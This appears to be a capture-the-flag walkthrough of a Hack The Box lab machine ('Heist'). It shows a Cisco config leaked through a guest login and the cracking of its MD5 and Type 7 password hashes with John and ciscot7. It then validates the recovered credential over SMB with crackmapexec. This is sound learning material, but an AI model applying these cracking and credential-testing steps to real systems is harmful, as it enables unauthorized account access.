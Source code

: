 # 10 - HTTP


# login.php
![](vx_images/2647437189075.png)

There is not much we can do, let's login as guest

# issues.php

![](vx_images/3925231746598.png)

User Hazard is having problems with his cisco router. The attachment is the router's config file. Obviously we have a potential user 'Hazard'


# attachment.txt
```sql
// http://10.10.10.149/attachments/config.txt

version 12.2
no service pad
service password-encryption
!
isdn switch-type basic-5ess
!
hostname ios-1
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
!
ip ssh authentication-retries 5
ip ssh version 2
!
!
router bgp 100
 synchronization
 bgp log-neighbor-changes
 bgp dampening
 network 192.168.0.0Â mask 300.255.255.0
 timers bgp 3 9
 redistribute connected
!
ip classless
ip route 0.0.0.0 0.0.0.0 192.168.0.1
!
!
access-list 101 permit ip any any
dialer-list 1 protocol ip list 101
!
no ip http server
no ip http secure-server
!
line vty 0 4
 session-timeout 600
 authorization exec SSH
 transport input ssh

```

The number before the hash refers to the hash algorithm that is being used.
secret 5 = MD5
password 7 = Cisco Type 7

# Hashes
| username |                hash                |    type     |
| -------- | ---------------------------------- | ----------- |
| -        | \$1$pdQG$o8nrSzsGXeaduXrjlvKc91    | md5         |
| admin    | 02375012182C1A1D751618034F36415408 | Cisco Type7 |
| rout3r   | 0242114B0E143F015F5D1E161713       | Cisco Type7 |


# MD5 cracked
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/heist]
└──╼ $ john hash  -w=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:09 1.51% (ETA: 14:56:21) 0g/s 28203p/s 28203c/s 28203C/s 150309..132425
stealth1agent    (?)
1g 0:00:02:11 DONE (2021-08-04 14:48) 0.007585g/s 26589p/s 26589c/s 26589C/s stealthy001..steak7893
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

# Cisco Type7 Decrypt
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/heist]                                                                                                                                            [4/323]
└──╼ $ git clone https://github.com/theevilbit/ciscot7
┌─[user@parrot]─[10.10.14.18]─[~/htb/heist]
└──╼ $ cd ciscot7/
┌─[user@parrot]─[10.10.14.18]─[~/htb/heist/ciscot7]
└──╼ $ python3 ciscot7.py --help
Usage: ciscot7.py [options]

Options:
  -h, --help            show this help message and exit
  -e, --encrypt         Encrypt password
  -d, --decrypt         Decrypt password. This is the default
  -p PASSWORD, --password=PASSWORD
                        Password to encrypt / decrypt
  -f FILE, --file=FILE  Cisco config file, only for decryption

┌─[user@parrot]─[10.10.14.18]─[~/htb/heist/ciscot7]
└──╼ $ python3 ciscot7.py -d -p 02375012182C1A1D751618034F36415408 # admin
Decrypted password: Q4)sJu\Y8qz*A3?d
┌─[user@parrot]─[10.10.14.18]─[~/htb/heist/ciscot7]
└──╼ $ python3 ciscot7.py -d -p 0242114B0E143F015F5D1E161713 # rout3r
Decrypted password: $uperP@ssword
```


# Hazard is a valid user
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/heist]
└──╼ $ cme smb 10.10.10.149 -u 'hazard' -p stealth1agent
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
```


